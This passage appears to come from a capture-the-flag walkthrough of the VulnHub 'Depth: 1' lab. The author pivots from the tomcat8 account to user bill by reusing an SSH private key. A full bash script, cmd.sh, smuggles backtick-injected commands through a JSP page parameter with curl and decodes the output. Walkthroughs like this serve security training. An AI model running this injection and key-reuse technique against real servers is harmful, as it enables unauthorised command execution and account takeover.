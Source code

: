 I took an educated guess, put two and two together and gathered that `tomcat8` probably had its public key listed in `/home/bill/.ssh/authorized_keys`. If that's the case, I should be able to login to `bill`'s account via SSH in **localhost**. Well, there's only one way to find out and as Yoda put it, "**_Do. Or do not. There is no try._**"

### Kill Bill: Vol. 1

I knew one can execute a command upon login via SSH. But first, let's see if I can login as `bill` with `tomcat8`'s private key.

![screenshot-6](/assets/images/posts/depth-walkthrough/screenshot-6.png)

Holy smoke! Not only was I able to execute remote commands, I was also able to overcome the output display restrictions by adding my own placeholders.

With this in mind, I wrote `cmd.sh`, a script that displayed the proper output from the commands as if executed by `bill` in a shell.

{% highlight bash linenos %}
# cat cmd.sh
#!/bin/bash

_HOST=192.168.100.4
_PORT=8080
_TEST=test.jsp
_PATH=path
__KEY=/usr/share/tomcat8/.ssh/id_rsa
__SSH="ssh -i $__KEY bill@localhost"
__SEQ="echo 0 1 2 3 4 5 6 7"
__CMD="$__SSH sh -c '$__SEQ XXX$1 | base64XXX' "

urlencode() {
    old_lc_collate=$LC_COLLATE
    LC_COLLATE=C

    local length="${#1}"
    for (( i = 0; i < length; i++ )); do
        local c="${1:i:1}"
        case $c in
            [a-zA-Z0-9.~_-]) printf "$c" ;;
            *) printf '%%%02X' "'$c" ;;
        esac
    done

    LC_COLLATE=$old_lc_collate
}

CMD=$(urlencode "$__CMD")

curl -s $_HOST:$_PORT/$_TEST?$_PATH=${CMD//XXX/%60} \
| grep -P '^<td>' \
| sed -e '4!d' -e 's/^<td>//' -e 's/<\/td>$//' \
| tr ' ' '\n' \
| base64 -d
{% endhighlight %}


[1]: https://www.vulnhub.com/entry/depth-1,213/
[2]: https://twitter.com/@fang0654
[3]: https://www.vulnhub.com